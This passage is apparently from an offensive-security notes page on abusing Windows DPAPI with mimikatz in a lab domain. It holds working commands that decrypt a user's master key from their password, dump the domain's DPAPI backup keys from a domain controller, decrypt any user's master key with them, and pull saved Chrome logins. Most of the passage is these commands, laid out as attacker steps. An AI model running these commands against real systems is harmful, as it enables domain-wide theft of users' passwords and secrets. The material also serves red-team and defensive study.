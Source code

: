 ![](<../../.gitbook/assets/Screenshot from 2019-04-13 16-05-55.png>)

Additionally, note that if the user is not logged on, but you have their password, just spawn a process with their creds and repeat the above steps to retrieve their secrets.

### Retrieving MasterKey with User's Password

Same could be achieved if user's SID, their logon password and master key's GUIDs are known:

{% code title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 18-02-42.png>)

## Extracting DPAPI Backup Keys with Domain Admin

It's possible to extract DPAPI backup keys from the Domain Controller that will enable us to decrypt any user's master key which in turn will allow us to decrypt users' secrets.

While running as a `Domain Admin`, let's dump the DPAPI backup keys:

{% code title="attacker@victim" %}
```csharp
lsadump::backupkeys /system:dc01.offense.local /export
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 16-57-55.png>)

Using the retrieved backup key, let's decrypt user's `spotless` master key:

{% code title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 17-11-48.png>)

We can now decrypt user's `spotless` chrome secrets using their decrypted master key:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode %}
